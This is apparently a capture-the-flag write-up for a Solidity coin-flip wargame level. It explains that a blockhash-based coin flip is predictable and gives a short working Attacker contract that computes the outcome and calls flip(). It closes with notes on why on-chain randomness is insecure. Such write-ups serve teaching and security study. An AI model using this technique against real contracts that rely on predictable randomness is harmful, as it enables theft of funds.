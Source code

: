             if (side == _guess) {
        
                consecutiveWins++;
                return true;
            } else {
                
                consecutiveWins = 0;
                return false;
            }
        }   
    }


=========================

###Goal
* This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.
=========================

### Solution

* Since previous BlockHash is known, we can use it to calculate the correct answer for 
    * uint256 coinFlip = blockValue / FACTOR;
* Then call the flip() method with the correct guess
    * CoinFlip(_coinflip).flip(guess)
* Calling this attack method 10 times will get you to goal.

contract Attacker{
    
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    
    function attack(address _cf) public {
    
         uint256 blockValue = uint256(block.blockhash(block.number-1));
         uint256 coinFlip = blockValue / FACTOR;
         bool guess = coinFlip == 1? true : false; 
         require(address(_cf) != 0);
         CoinFlip(_cf).flip(guess);
    }
}


=========================

###Message on completion

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

Some options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

=========================

